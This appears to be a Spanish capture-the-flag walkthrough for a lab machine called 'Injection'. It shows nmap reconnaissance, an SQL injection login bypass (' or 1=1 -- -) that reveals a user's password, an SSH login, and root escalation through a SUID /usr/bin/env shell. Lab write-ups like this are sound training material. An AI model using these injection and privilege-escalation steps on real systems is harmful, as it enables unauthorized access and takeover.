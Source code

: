 ### Máquina Injection

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2 

22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Navegamos al 172.17.0.2

nos encontramos con un formulario de login:

![alt text](image.png)

![alt text](image-1.png)

en los 2 inputs escribimos ' or 1=1 -- - y nos arrojo la contraseña de dylan

KJSDFG789FGSDF78

## Intrusion

por shh

shh dylan@172.172.17.0.2 -> KJSDFG789FGSDF78

## Escalar privilegios

find / -perm -4000 2>/dev/null

/usr/bin/env

/usr/bin/env /bin/sh -p

![alt text](image-2.png)

